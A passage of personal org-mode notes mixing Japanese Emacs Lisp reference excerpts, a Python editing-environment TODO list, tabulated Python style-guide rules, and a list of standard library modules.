       form の評価中にエラーが出さ (訳注： signal) れた場合、 signal は condition- case マークを見つけるまでスタ
       ックをサーチし、 (現われた順に) そ handlers を見ていきます。各ハンドラは、 (condition-name body*) とい
       った形をしています。

       あるハンドラ中の condition-name が、そのエラーシンボルに対応付けられたコンディションの 1 つである場合、
       そのハンドラを用います。 (最初に) 変数 var に、 (それを持って signal が呼ばれた) リスト data と
       (condition-name ではなく) エラーシンボルとをコンスしたリストをバインドします。 (次に) body フォームを評
       価し、その最後の値を結果とします。

       condition-case が、 (その) どのコンディションに対するハンドラも持たない場合、 signal はそのエラーを扱う
       (別の) condition-case がスタック上に存在しないか調べ (続け) ます。見つからなかった場合、処理 (訳注：
       computation) をアボートします。

****** save-restriction
       ナロイング範囲を変更した場合にはもとに戻す
****** save-window-excursion
       the window configuration
****** with-temp-buffer
****** save-window-excursion
	 この関数は, buffer-name という名前のバッファに forms の任意の出力が挿入されるように準備して forms を
	 実行する. そのバッファは適当なウィンドウに表示されるが, そのバッファは選択されない.

	 文字列 buffer-name は, 既存である必要はない一時的なバッファを指定する. 引数は, バッファではなく文字
	 列であること. （問い合わせずに）はじめにバッファを消去し, with-output-to-temp-buffer が終了すると
	 未変更と印を付ける.

	 with-output-to-temp-buffer は, standard-output に一時的なバッファを束縛し, forms のフォーム群を評価
	 する. forms 内で用いた Lisp 出力関数からの出力はデフォルトでそのバッファに入る（しかし, スクリーン表
	 示やエコー領域のメッセージは, 用語の一般的な意味で『出力』であるが, 影響されない. ） see section
	 出力関数.

	 forms の最後のフォームの値を返す.

	 ---------- Buffer: foo ----------
	 This is the contents of foo.
	 ---------- Buffer: foo ----------

	 (with-output-to-temp-buffer "foo"
	 (print 20)
	 (print standard-output))
	 ⇑ #<buffer foo>

	 ---------- Buffer: foo ----------
	 20

#<buffer foo>

	 ---------- Buffer: foo ----------

****** with-output-to-temp-buffer
****** ignore-errors
***** cua-set
      C-x r c	clear-rectangle	矩形領域を空白文字に置き換える
      C-x r d	delete-rectangle	矩形領域を削除する
      C-x r o	open-rectangle	空白文字で埋まった矩形領域を挿入する
      C-x r t	string-rectangle	矩形領域を文字列で置き換える
      C-x r k	kill-rectangle	矩形領域を削除してキルリングに追加
      C-x r y	yank-rectangle	キルリングの矩形領域を貼り付ける
      C-x r r	copy-rectangle-to-register	レジスターに矩形領域を登録する
      C-x r i	insert-register	レジスターに登録された矩形領域を貼り付ける

      リージョン選択中に C-<enter> で矩形選択モードになります。 sense-region と同様に C-w や M-w が使えます
      。また、矩形選択中に次のコマンドを打つと、矩形領域に対して操作を行うことができます。

      コマンド                                    動作
      適当なキー 矩形領域の前（または後ろ）にそのまま挿入。 <enter> で挿入位置を変えられる
      M-p        矩形の幅を固定
      M-b        空白文字で埋める。 open-rectangle と同等
      M-s        文字列で置き換える。 string-rectangle と同等
      M-f        1 種類の文字で埋める。 string-rectangle で 1 文字指定したときと同等
      M-i        矩形領域内の数字をインクリメントする
      M-n        矩形領域を連番で埋める。フォーマット指定可

***** command line
;;;; Command Option
(defun command-line-find-file-read-only (switch)
  (find-file-read-only (pop command-line-args-left)))

(add-to-list 'command-switch-alist
             '("--read-only" . command-line-find-file-read-only))

***** super character
      ?\a => 7                 ; control-g, `C-g'
      ?\b => 8                 ; backspace, <BS>, `C-h'
      ?\t => 9                 ; tab, <TAB>, `C-i'
      ?\n => 10                ; newline, `C-j'
      ?\v => 11                ; vertical tab, `C-k'
      ?\f => 12                ; formfeed character, `C-l'
      ?\r => 13                ; carriage return, <RET>, `C-m'
      ?\e => 27                ; escape character, <ESC>, `C-['
      ?\s => 32                ; space character, <SPC>
      ?\\ => 92                ; backslash character, `\'
      ?\d => 127               ; delete character, <DEL>

***** debug
      toggle-debug-on-quit

*** Python
**** Over view
***** [2/4] Build & Run
:実行して確認 変更させて動作させる:
****** DONE py-insert-debug-print
       CLOSED: [2013-02-27 03:32]
****** DONE py-delete-debug-print
       CLOSED: [2013-02-27 03:33]
****** TODO log を取る。
****** TODO 変数の変更があれば表示
***** [0/0] Specification
- Directory Constraction
- File Constraction
***** [0/0] History
- Changelog
- Readme
- mailing list
- news
- subversion
***** [0/0] Preprocessor
***** [2/4] minimap
******* TODO follow mode
******* TODO left view and imenu
******* DONE Microsoft Word
        CLOSED: [2013-02-27 03:38]
******* DONE Libre Office Writer
        CLOSED: [2013-02-27 03:39]
***** [0/0] Callgraph
- pycallgraph
- doxygen
****** UML
- pyreverse
  pyreverse.bat -o png package

***** [0/0] symbol list
- imenu
***** [0/0] Jump Function or Variable
***** [0/3] Document
****** TODO [1/2] 簡易表示
******* DONE arguments
        CLOSED: [2013-02-27 03:41]
******* TODO Summary

****** TODO [1/2] 詳細表示
******* DONE info
        CLOSED: [2013-02-27 03:41]
******* TODO source

****** TODO [0/2] Document History
******* TODO visited count
******* TODO memo



**** Edit Source
***** TODO Code Navigation
****** TODO Auto Completion
- jedi
****** TODO Function or Variable Name Assist
***** TODO Syntax Checker
***** Template
***** refactoring
**** Compile Build
**** Run
****** TODO Execute this buffer
**** Debug
***** TODO View Stack, locals/globals and return value
**** Profile
**** Coding style
(ref. [[http://www.python.org/dev/peps/pep-0008/][PEP 8 -- Style Guide for Python Code]])
(ref. [[http://google-styleguide.googlecode.com/svn/trunk/pyguide.html][Google Python Style Guide]])

***** Names to Avoid
- Never use the characters
  'l' (lowercase letter el),
  'O' (uppercase letter oh), or
  'I' (uppercase letter eye) as single character variable names.

- single character names except for counters or iterators
- dashes (-) in any package/module name
- __double_leading_and_trailing_underscore__ names (reserved by Python)

***** Naming Conventions

- "Internal" means internal to a module or protected or private within a class.
- Prepending a single underscore (_) has some support for protecting module variables
  and functions (not included with import * from).
  Prepending a double underscore (__) to an instance variable or method effectively
  serves to make the variable or method private to its class (using name mangling).
- Place related classes and top-level functions together in a module.
  Unlike Java, there is no need to limit yourself to one class per module.
- Use CapWords for class names, but lower_with_under.py for module names.
  Although there are many existing modules named CapWords.py,
  this is now discouraged because it's confusing when the module
  happens to be named after a class.
  ("wait -- did I write import StringIO or from StringIO import StringIO?")

|--------------------+--------------------------------------------------------------------------------|
| Entity             | Description                                                                    |
|--------------------+--------------------------------------------------------------------------------|
| package, module    | Public:   lower_with_under                                                     |
|                    | Internal: _lower_with_under                                                    |
|                    | Modules should have short, all-lowercase names.                                |
|                    | Underscores can be used in the module name if it improves readability.         |
|--------------------+--------------------------------------------------------------------------------|
| ClassName          | Public:   CapWords                                                             |
|                    | Internal: _CapWords                                                            |
|                    | Almost without exception,                                                      |
|                    | class names use the CapWords convention.                                       |
|                    | Classes for internal use have a leading underscore in addition.                |
|--------------------+--------------------------------------------------------------------------------|
| ExceptionNames     | Public:   CapWords                                                             |
| (ExceptionError)   | Because exceptions should be classes,                                          |
|                    | the class naming convention applies here.                                      |
|                    | However, you should use the suffix "Error" on your exception names             |
|                    | (if the exception actually is an error).                                       |
|--------------------+--------------------------------------------------------------------------------|
| G_GLOBAL_VARIABLE  | (Let's hope that these variables are meant for use inside one module only.)    |
|                    | The conventions are about the same as those for functions.                     |
|                    | Modules that are designed for use via from M import *                          |
|                    | should use the __all__ mechanism to prevent exporting globals,                 |
|                    | or use the older convention of prefixing such globals with an underscore       |
|                    | (which you might want to do to indicate these globals are                      |
|                    | "module non-public").                                                          |
|--------------------+--------------------------------------------------------------------------------|
| function_names     | Public:   lower_with_under ()                                                   |
|                    | Internal: _lower_with_under ()                                                  |
|                    | Function names should be lowercase,                                            |
|                    | with words separated by underscores as necessary to improve readability.       |
|                    | mixedCase is allowed only in contexts where that's already                     |
|                    | the prevailing style (e.g. threading.py), to retain backwards compatibility.   |
|--------------------+--------------------------------------------------------------------------------|
| function and       | Always use self for the first argument to instance methods.                    |
| method_arguments   | Always use cls for the first argument to class methods.                        |
|                    | If a function argument's name clashes with a reserved keyword,                 |
|                    | it is generally better to append a single trailing underscore                  |
|                    | rather than use an abbreviation or spelling corruption.                        |
|                    | Thus class_ is better than clss.                                               |
|                    | (Perhaps better is to avoid such clashes by using a synonym.)                  |
|--------------------+--------------------------------------------------------------------------------|
| method_name        | Public:   lower_with_under                                                     |
| and                | Internal: _lower_with_under                                                    |
| instance_variables | Use the function naming rules: lowercase with words separated                  |
| _non_public_meshod | by underscores as necessary to improve readability.                            |
|                    | Use one leading underscore only for non-public methods and instance variables. |
|                    | To avoid name clashes with subclasses, use two leading underscores             |
|                    | to invoke Python's name mangling rules.                                        |
|                    | Python mangles these names with the class name:                                |
|                    | if class Foo has an attribute named __a, it cannot be accessed by Foo.__a.     |
|                    | (An insistent user could still gain access by calling Foo._Foo__a.)            |
|                    | Generally, double leading underscores should be used only to avoid             |
|                    | name conflicts with attributes in classes designed to be subclassed.           |
|                    | Note: there is some controversy about the use of __names (see below).          |
|--------------------+--------------------------------------------------------------------------------|
| CONSTANT           | Public:   CAPS_WITH_UNDER                                                      |
|                    | Internal: _CAPS_WITH_UNDER                                                     |
|                    | Constants are usually defined on a module level and                            |
|                    | written in all capital letters with underscores separating words.              |
|                    | Examples include MAX_OVERFLOW and TOTAL.                                       |
|--------------------+--------------------------------------------------------------------------------|
| TypeName           |                                                                                |
| EnumeratedTypes    |                                                                                |

***** Rules
|--------------------+---------------------------------------------------------------------------------------------------|
| Line length        | Maximum line length is 80 characters. Do not use backslash line continuation.                     |
|                    | docstring or comments 72 characters.                                                                |
|--------------------+---------------------------------------------------------------------------------------------------|
| Indentation        | Indent your code blocks with 4 spaces. Never use tabs or mix tabs and spaces.                     |
|--------------------+---------------------------------------------------------------------------------------------------|
| Blank Lines        | Two blank lines between top-level definitions, one blank line between method definitions.         |
|                    | Two blank lines between top-level definitions, be they function or class definitions.             |
|                    | One blank line between method definitions and between the class line and the first method.        |
|                    | Use single blank lines as you judge appropriate within functions or methods.                      |
|--------------------+---------------------------------------------------------------------------------------------------|
| Semicolons         | Do not terminate your lines with semi-colons                                                      |
|                    | and do not use semi-colons to put two commands on the same line.                                  |
|--------------------+---------------------------------------------------------------------------------------------------|
| Whitespace         | Follow standard typographic rules for the use of spaces around punctuation.                       |
|                    | No whitespace inside parentheses, brackets or braces.                                             |
|                    | Yes: spam (ham[1], {eggs: 2}, [])                                                                  |
|                    | No:  spam ( ham[ 1 ], { eggs: 2 }, [ ] )                                                           |
|                    | ---                                                                                               |
|                    | No whitespace before a comma, semicolon, or colon.                                                |
|                    | Do use whitespace after a comma, semicolon, or colon except at the end of the line.               |
|                    | Yes: if x == 4:                                                                                   |
|                    | ........print x, y                                                                                |
|                    | ........x, y = y, x                                                                               |
|                    | No:  if x == 4 :                                                                                  |
|                    | ........print x , y                                                                               |
|                    | ........x , y = y , x                                                                             |
|                    | ---                                                                                               |
|                    | No whitespace before the open paren/bracket that                                                  |
|                    | starts an argument list, indexing or slicing.                                                     |
|                    | Yes: spam (1)                                                                                      |
|                    | No:  spam (1)                                                                                     |
|                    | Yes: dict['key'] = list[index]                                                                    |
|                    | No:  dict ['key'] = list [index]                                                                  |
|                    | ---                                                                                               |
|                    | Surround binary operators with a single space on either side for assignment (=),                   |
|                    | comparisons (==, <, >, !=, <>, <=, >=, in, not in, is, is not),                                   |
|                    | and Booleans (and, or, not).                                                                      |
|                    | Use your better judgment for the insertion of spaces around arithmetic operators                  |
|                    | but always be consistent about whitespace on either side of a binary operator.                    |
|                    | Yes: x == 1                                                                                       |
|                    | No:  x<1                                                                                          |
|                    | ---                                                                                               |
|                    | Don't use spaces around the '=' sign                                                              |
|                    | when used to indicate a keyword argument or a default parameter value.                            |
|                    | Yes: def complex (real, imag=0.0): return magic (r=real, i=imag)                                    |
|                    | No:  def complex (real, imag = 0.0): return magic (r = real, i = imag)                              |
|                    | ---                                                                                               |
|                    | Don't use spaces to vertically align tokens on consecutive lines,                                 |
|                    | since it becomes a maintenance burden (applies to :, #, =, etc.):                                 |
|                    |                                                                                                   |
|                    | Yes:                                                                                              |
|                    | foo = 1000  # comment                                                                             |
|                    | long_name = 2  # comment that should not be aligned                                               |
|                    |                                                                                                   |
|                    | dictionary = {                                                                                    |
|                    | ....'foo': 1,                                                                                     |
|                    | ....'long_name': 2,                                                                               |
|                    | }                                                                                                 |
|                    | No:                                                                                               |
|                    | foo       = 1000  # comment                                                                       |
|                    | long_name = 2     # comment that should not be aligned                                            |
|                    |                                                                                                   |
|                    | dictionary = {                                                                                    |
|                    | ....'foo'      : 1,                                                                               |
|                    | ....'long_name': 2,                                                                               |
|                    | }                                                                                                 |
|--------------------+---------------------------------------------------------------------------------------------------|
| shebang line       | Most .py files do not need to start with a #! line.                                               |
|                    | Start the main file of a program with #!/usr/bin/python.                                          |
|                    | This line is used by the kernel to find the Python interpreter,                                   |
|                    | but is ignored by Python when importing modules.                                                  |
|                    | It is only necessary on a file that will be executed directly.                                    |
|--------------------+---------------------------------------------------------------------------------------------------|
| strings            | Use the % operator for formatting strings, even when the parameters are all strings.              |
|                    | Use your best judgement to decide between + and % though.                                         |
|                    |                                                                                                   |
|                    | Yes: x = a + b                                                                                    |
|                    | .....x = '%s, %s!' % (imperative, expletive)                                                      |
|                    | .....x = 'name: %s; score: %d' % (name, n)                                                        |
|                    | No: x = '%s%s' % (a, b)  # use + in this case                                                     |
|                    | ....x = imperative + ', ' + expletive + '!'                                                       |
|                    | ....x = 'name: ' + name + '; score: ' + str (n)                                                    |
|                    |                                                                                                   |
|                    | Avoid using the + and += operators to accumulate a string within a loop.                          |
|                    | Since strings are immutable, this creates unnecessary temporary objects and                       |
|                    | results in quadratic rather than linear running time.                                             |
|                    | Instead, add each substring to a list and ''.join                                                 |
|                    | the list after the loop terminates (or, write each substring to a cStringIO.StringIO buffer).     |
|                    |                                                                                                   |
|                    | Yes: items = ['<table>']                                                                          |
|                    | .....for last_name, first_name in employee_list:                                                  |
|                    | .........items.append ('<tr><td>%s, %s</td></tr>' % (last_name, first_name))                       |
|                    | .....items.append ('</table>')                                                                     |
|                    | .....employee_table = ''.join (items)                                                              |
|                    | No: employee_table = '<table>'                                                                    |
|                    | ....for last_name, first_name in employee_list:                                                   |
|                    | ........employee_table += '<tr><td>%s, %s</td></tr>' % (last_name, first_name)                    |
|                    | ....employee_table += '</table>'                                                                  |
|                    |                                                                                                   |
|                    | Use """ for multi-line strings rather than '''. Note, however,                                    |
|                    | that it is often cleaner to use implicit line joining since multi-line                            |
|                    | strings do not flow with the indentation of the rest of the program:                              |
|                    |                                                                                                   |
|                    | Yes:                                                                                              |
|                    | ..print ("This is much nicer.\n"                                                                  |
|                    | ........."Do it this way.\n")                                                                     |
|                    | No:                                                                                               |
|                    | ..print """This is pretty ugly.                                                                   |
|                    | Don't do this.                                                                                    |
|--------------------+---------------------------------------------------------------------------------------------------|
| Files              | Explicitly close files and sockets when done with them.                                           |
| and                | Leaving files, sockets or other file-like objects open unnecessarily                              |
| Sockets            | has many downsides, including:                                                                    |
|                    |                                                                                                   |
|                    | They may consume limited system resources, such as file descriptors.                              |
|                    | Code that deals with many such objects may exhaust those resources unnecessarily                  |
|                    | if they're not returned to the system promptly after use.                                         |
|                    |                                                                                                   |
|                    | Holding files open may prevent other actions being performed on them,                             |
|                    | such as moves or deletion.                                                                        |
|                    | Files and sockets that are shared throughout a program may inadvertantly be                       |
|                    | read from or written to after logically being closed.                                             |
|                    | If they are actually closed, attempts to read or write from them will throw exceptions,           |
|                    | making the problem known sooner.                                                                  |
|                    |                                                                                                   |
|                    | Furthermore, while files and sockets are automatically closed when the file object is destructed, |
|                    | tying the life-time of the file object to the state of the file is poor practice,                 |
|                    | for several reasons:                                                                              |
|                    |                                                                                                   |
|                    | There are no guarantees as to when the runtime will actually run the file's destructor.           |
|                    | Different Python implementations use different memory management techniques,                      |
|                    | such as delayed Garbage Collection, which may increase the object's lifetime arbitrarily          |
|                    | and indefinitely.                                                                                 |
|                    |                                                                                                   |
|                    | Unexpected references to the file may keep it around longer than intended                         |
|                    | (e.g. in tracebacks of exceptions, inside globals, etc).                                          |
|                    |                                                                                                   |
|                    | The preferred way to manage files is using the "with" statement:                                  |
|                    |                                                                                                   |
|                    | with open ("hello.txt") as hello_file:                                                             |
|                    | ....for line in hello_file:                                                                       |
|                    | ........print line                                                                                |
|                    |                                                                                                   |
|                    | For file-like objects that do not support the "with" statement, use contextlib.closing ():         |
|                    |                                                                                                   |
|                    | import contextlib                                                                                 |
|                    |                                                                                                   |
|                    | with contextlib.closing (urllib.urlopen ("http://www.python.org/")) as front_page:                  |
|                    | ....for line in front_page:                                                                       |
|                    | ........print line                                                                                |
|                    |                                                                                                   |
|                    | Legacy AppEngine code using Python 2.5 may enable the "with" statement using                      |
|                    | "from __future__ import with_statement".                                                          |
|--------------------+---------------------------------------------------------------------------------------------------|
| TODO Comments      | Use TODO comments for code that is temporary,                                                     |
|                    | a short-term solution, or good-enough but not perfect.                                            |
|                    |                                                                                                   |
|                    | TODOs should include the string TODO in all caps,                                                 |
|                    | followed by the name, e-mail address, or other identifier                                         |
|                    | of the person who can best provide context about the problem                                      |
|                    | referenced by the TODO, in parentheses.                                                           |
|                    | A colon is optional.                                                                              |
|                    | A comment explaining what there is to do is required.                                             |
|                    | The main purpose is to have a consistent TODO format                                              |
|                    | that can be searched to find the person who can provide                                           |
|                    | more details upon request. A TODO is not a commitment that                                        |
|                    | the person referenced will fix the problem.                                                       |
|                    | Thus when you create a TODO, it is almost always your name that is given.                         |
|                    |                                                                                                   |
|                    | # TODO (kl@gmail.com): Use a "*" here for string repetition.                                       |
|                    | # TODO (Zeke) Change this to use relations.                                                        |
|                    |                                                                                                   |
|                    | If your TODO is of the form "At a future date do something"                                       |
|                    | make sure that you either include a very specific date                                            |
|                    | ("Fix by November 2009") or a very specific event                                                 |
|                    | ("Remove this code when all clients can handle XML responses.").                                  |
|--------------------+---------------------------------------------------------------------------------------------------|
| Imports formatting | Imports should be on separate lines.                                                              |
|                    |                                                                                                   |
|                    | E.g.:                                                                                             |
|                    |                                                                                                   |
|                    | Yes: import os                                                                                    |
|                    | _____import sys                                                                                   |
|                    | No:  import os, sys                                                                               |
|                    |                                                                                                   |
|                    | Imports are always put at the top of the file,                                                    |
|                    | just after any module comments and                                                                |
|                    | doc strings and before module globals and constants.                                              |
|                    | Imports should be grouped with                                                                    |
|                    | the order being most generic to least generic:                                                    |
|                    |                                                                                                   |
|                    | - standard library imports                                                                        |
|                    | - third-party imports                                                                             |
|                    | - application-specific imports                                                                    |
|                    |                                                                                                   |
|                    | Within each grouping, imports should be sorted lexicographically,                                 |
|                    | ignoring case, according to each module's full package path.                                      |
|                    |                                                                                                   |
|                    | import foo                                                                                        |
|                    | from foo import bar                                                                               |
|                    | from foo.bar import baz                                                                           |
|                    | from foo.bar import Quux                                                                          |
|                    | from Foob import ar                                                                               |
|--------------------+---------------------------------------------------------------------------------------------------|
| Statements         | Generally only one statement per line.                                                            |
|                    |                                                                                                   |
|                    | However, you may put the result of a test on the same line                                        |
|                    | as the test only if the entire statement fits on one line.                                        |
|                    | In particular, you can never do so with try/except                                                |
|                    | since the try and except can't both fit on the same line,                                         |
|                    | and you can only do so with an if if there is no else.                                            |
|                    |                                                                                                   |
|                    | Yes:                                                                                              |
|                    |                                                                                                   |
|                    | ..if foo: bar (foo)                                                                                |
|                    | No:                                                                                               |
|                    |                                                                                                   |
|                    | ..if foo: bar (foo)                                                                                |
|                    | ..else:   baz (foo)                                                                                |
|                    |                                                                                                   |
|                    | ..try:               bar (foo)                                                                     |
|                    | ..except ValueError: baz (foo)                                                                     |
|                    |                                                                                                   |
|                    | ..try:                                                                                            |
|                    | ......bar (foo)                                                                                    |
|                    | ..except ValueError: baz (foo)                                                                     |
|--------------------+---------------------------------------------------------------------------------------------------|
| Access Control     | If an accessor function would be trivial                                                          |
|                    | you should use public variables instead of accessor functions to avoid                            |
|                    | the extra cost of function calls in Python. When more functionality is                            |
|                    | added you can use property to keep the syntax consistent.                                         |
|                    |                                                                                                   |
|                    | On the other hand, if access is more complex,                                                     |
|                    | or the cost of accessing the variable is significant,                                             |
|                    | you should use function calls (following the Naming guidelines)                                   |
|                    | such as get_foo () and set_foo ().                                                                  |
|                    | If the past behavior allowed access through a property,                                           |
|                    | do not bind the new accessor functions to the property.                                           |
|                    | Any code still attempting to access the variable by the old method                                |
|                    | should break visibly so they are made aware of the change in complexity.                          |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |
|                    |                                                                                                   |

***** Comments
|-----------------+--------------------------------------------------------------------------------------------|
| Comments        | Descriptions                                                                               |
|-----------------+--------------------------------------------------------------------------------------------|
| Doc Strings     | Python has a unique commenting style using doc strings.                                    |
|                 | A doc string is a string that is the first statement in a                                  |
|                 | package, module, class or function.                                                        |
|                 | These strings can be extracted automatically through the __doc__                           |
|                 | member of the object and are used by pydoc.                                                |
|                 | (Try running pydoc on your module to see how it looks.)                                    |
|                 | Our convention for doc strings is to use the three double-quote format for strings.        |
|                 | A doc string should be organized as a summary line (one physical line)                     |
|                 | terminated by a period, question mark, or exclamation point, followed by a blank line,     |
|                 | followed by the rest of the doc string starting at the same cursor position                |
|                 | as the first quote of the first line.                                                      |
|                 | There are more formatting guidelines for doc strings below.                                |
|-----------------+--------------------------------------------------------------------------------------------|
| Modules         | Every file should contain license boilerplate.                                             |
|                 | Choose the appropriate boilerplate for the license used by the project                     |
|                 | (for example, Apache 2.0, BSD, LGPL, GPL)                                                  |
|-----------------+--------------------------------------------------------------------------------------------|
| Functions       | As used in this section "function" applies to methods, function, and generators.           |
| and             | A function must have a docstring, unless it meets all of the following criteria:           |
| Methods         | - not externally visible                                                                   |
|                 | - very short                                                                               |
|                 | - obvious                                                                                  |
|                 |                                                                                            |
|                 | A docstring should give enough information to write a call to the function                 |
|                 | without reading the function's code.                                                       |
|                 | A docstring should describe the function's calling syntax                                  |
|                 | and its semantics, not its implementation.                                                 |
|                 | For tricky code, comments alongside the code are more appropriate than using docstrings.   |
|                 |                                                                                            |
|                 | Certain aspects of a function should be documented in special sections, listed below.      |
|                 | Each section begins with a heading line, which ends with a colon.                          |
|                 | Sections should be indented two spaces, except for the heading.                            |
|                 | Args:                                                                                      |
|                 | ......List each parameter by name.                                                         |
|                 | ......A description should follow the name, and be separated by a colon and a space.       |
|                 | ......If the description is too long to fit on a single 80-character line,                 |
|                 | ......use a hanging indent of 2 or 4 spaces (be consistent with the rest of the file).     |
|                 | ......The description should mention required type (s) and the meaning of the argument.     |
|                 |                                                                                            |
|                 | ......If a function accepts *foo (variable length argument lists)                          |
|                 | ......and/or **bar (arbitrary keyword arguments), they should be listed as *foo and **bar. |
|                 |                                                                                            |
|                 | Returns: (or Yields: for generators)                                                       |
|                 | ......Describe the type and semantics of the return value.                                 |
|                 | ......If the function only returns None, this section is not required.                     |
|                 |                                                                                            |
|                 | Raises:                                                                                    |
|                 | ......List all exceptions that are relevant to the interface.                              |
|                 |                                                                                            |
|                 | def fetch_bigtable_rows (big_table, keys, other_silly_variable=None):                       |
|                 | ...."""Fetches rows from a Bigtable.                                                       |
|                 |                                                                                            |
|                 | ....Retrieves rows pertaining to the given keys from the Table instance                    |
|                 | ....represented by big_table.  Silly things may happen if                                  |
|                 | ....other_silly_variable is not None.                                                      |
|                 | ....Args:                                                                                  |
|                 | ......big_table: An open Bigtable Table instance.                                          |
|                 | ......keys: A sequence of strings representing the key of each table row                   |
|                 | ......to fetch.                                                                            |
|                 | ......other_silly_variable: Another optional variable, that has a much                     |
|                 | ......longer name than the other args, and which does nothing.                             |
|                 |                                                                                            |
|                 | ....Returns:                                                                               |
|                 | ......A dict mapping keys to the corresponding table row data                              |
|                 | ......fetched. Each row is represented as a tuple of strings. For                          |
|                 | ......example:                                                                             |
|                 |                                                                                            |
|                 | ......{'Serak': ('Rigel VII', 'Preparer'),                                                 |
|                 | ......'Zim': ('Irk', 'Invader'),                                                           |
|                 | ......'Lrrr': ('Omicron Persei 8', 'Emperor')}                                             |
|                 | ....                                                                                       |
|                 | ......If a key from the keys argument is missing from the dictionary,                      |
|                 | ......then that row was not found in the table.                                            |
|                 |                                                                                            |
|                 | ....Raises:                                                                                |
|                 | ......IOError: An error occurred accessing the bigtable.Table object.                      |
|                 | ...."""                                                                                    |
|                 | ....pass                                                                                   |
|-----------------+--------------------------------------------------------------------------------------------|
| Classes         | Classes should have a doc string below the class definition describing the class.          |
|                 |                                                                                            |
|                 | If your class has public attributes, they should be documented here in an Attributes       |
|                 | section and follow the same formatting as a function's Args section.                       |
|                 |                                                                                            |
|                 | class SampleClass (object):                                                                 |
|                 | ...."""Summary of class here.                                                              |
|                 |                                                                                            |
|                 | ....Longer class information....                                                           |
|                 | ....Longer class information....                                                           |
|                 |                                                                                            |
|                 | ....Attributes:                                                                            |
|                 | ........likes_spam: A boolean indicating if we like SPAM or not.                           |
|                 | ........eggs: An integer count of the eggs we have laid.                                   |
|                 | ...."""                                                                                    |
|                 |                                                                                            |
|                 | ....def __init__(self, likes_spam=False):                                                  |
|                 | ........"""Inits SampleClass with blah."""                                                 |
|                 | ........self.likes_spam = likes_spam                                                       |
|                 | ........self.eggs = 0                                                                      |
|                 |                                                                                            |
|                 | ....def public_method (self):                                                               |
|                 | ........"""Performs operation blah."""                                                     |
|-----------------+--------------------------------------------------------------------------------------------|
| Block           | The final place to have comments is in tricky parts of the code.                           |
| and             | If you're going to have to explain it at the next code review,                             |
| Inline Comments | you should comment it now. Complicated operations get a few lines                          |
|                 | of comments before the operations commence.                                                |
|                 |                                                                                            |
|                 | # We use a weighted dictionary search to find out where i is in                            |
|                 | # the array.  We extrapolate position based on the largest num                             |
|                 | # in the array and the array size and then do binary search to                             |
|                 | # get the exact number.                                                                    |
|                 |                                                                                            |
|                 | if i & (i-1) == 0:        # true iff i is a power of 2                                     |
|                 |                                                                                            |
|                 | To improve legibility, these comments should be at least 2 spaces away from the code.      |
|                 |                                                                                            |
|                 | On the other hand, never describe the code.                                                |
|                 | Assume the person reading the code knows Python                                            |
|                 | (though not what you're trying to do) better than you do.                                  |
|                 |                                                                                            |
|                 | # BAD COMMENT: Now go through the b array and make sure whenever i occurs                  |
|                 | # the next element is i+1                                                                  |
|-----------------+--------------------------------------------------------------------------------------------|
| Classes         | If a class inherits from no other base classes, explicitly inherit from object.            |
|                 | This also applies to nested classes.                                                       |
|                 |                                                                                            |
|                 | Yes: class SampleClass (object):                                                            |
|                 | ........pass                                                                               |
|                 |                                                                                            |
|                 |                                                                                            |
|                 | .....class OuterClass (object):                                                             |
|                 |                                                                                            |
|                 | ........class InnerClass (object):                                                          |
|                 | .............pass                                                                          |
|                 |                                                                                            |
|                 |                                                                                            |
|                 | .....class ChildClass (ParentClass):                                                        |
|                 | ........"""Explicitly inherits from another class already."""                              |
|                 |                                                                                            |
|                 | No: class SampleClass:                                                                     |
|                 | ........pass                                                                               |
|                 |                                                                                            |
|                 |                                                                                            |
|                 | ....class OuterClass:                                                                      |
|                 |                                                                                            |
|                 | ........class InnerClass:                                                                  |
|                 | ............pass                                                                           |
|                 |                                                                                            |
|                 |                                                                                            |
|                 | Inheriting from object is needed to make properties work properly,                                                                                                     |
|                 | and it will protect your code from one particular potential incompatibility                                                                                            |
|                 | with Python 3000. It also defines special methods that implement the default                                                                                           |
|                 | semantics of objects including                                                                                                                                         |
|                 | __new__, __init__, __delattr__, __getattribute__, __setattr__,                                                                                                         |
|                 | __hash__, __repr__, and __str__.                                                                                                                                       |
|-----------------+--------------------------------------------------------------------------------------------|

**** Outline
**** Interpreter
**** tmp
***** Operaters
- lt <
- le <=
- eq =
- ne <>
- ge >=
- gt >

***** Standard Library
****** Text
1 string                -Text Constants and Templates
2 textwrap              -Formatting Text Paragraphs
3 re                    -Regular Expressions
4 difflib               -Compare Sequences

****** Data Structures
1 collections           -Container Data Types
2 array                 -Sequence of Fixed-Type Data
3 heapq                 -Heap Sort Algorithm
4 bisect                -Maintain Lists in Sorted Order
5 Queue                 -Thread-Safe FIFO Implementation
6 struct                -Binary Data Structures
7 weakref               -Impermanent References to Objects
8 copy                  -Duplicate Objects
9 pprint                -Pretty-Print Data Structures

****** Algorithms
1 functools             -Tools for Manipulating Functions
2 itertools             -Iterator Functions
3 operator              -Functional Interface to Built-in Operators
4 contextlib            -Context Manager Utilities

****** Dates and Times
1 time                  -Clock Time
2 datetime              -Date and Time Value Manipulation
3 calendar              -Work with Dates

****** Mathematics
1 decimal               -Fixed and Floating-Point Math
2 fractions             -Rational Numbers
3 random                -Pseudorandom Number Generators
4 math                  -Mathematical Functions

****** The File System
1 os.path               -Platform-Independent Manipulation of Filenames
2 glob                  -Filename Pattern Matching
3 linecache             -Read Text Files Efficiently
4 tempfile              -Temporary File System Objects
5 shutil                -High-Level File Operations
6 mmap                  -Memory-Map Files
7 codecs                -String Encoding and Decoding
8 StringIO              -Text Buffers with a File-like API
9 fnmatch               -UNIX-Style Glob Pattern Matching
10 dircache             -Cache Directory Listings
11 filecmp              -Compare Files

****** Data Persistence and Exchange
1 pickle                -Object Serialization
2 shelve                -Persistent Storage of Objects
3 anydbm                -DBM-Style Databases
4 whichdb               -Identify DBM-Style Database Formats
5 sqlite3               -Embedded Relational Database
6 xml.etree.ElementTree -XML Manipulation API
7 csv                   -Comma-Separated Value Files

****** Data Compression and Archiving
1 zlib                  -GNU zlib Compression
2 gzip                  -Read and Write GNU Zip Files
3 bz2                   -bzip2 Compression
4 tarfile               -Tar Archive Access
5 zipfile               -ZIP Archive Access

****** Cryptography
1 hashlib               -Cryptographic Hashing
2 hmac                  -Cryptographic Message Signing and Verification

****** Processes and Threads
1 subprocess            -Spawning Additional Processes
2 signal                -Asynchronous System Events
3 threading             -Manage Concurrent Operations
4 multiprocessing       -Manage Processes like Threads

****** Networking
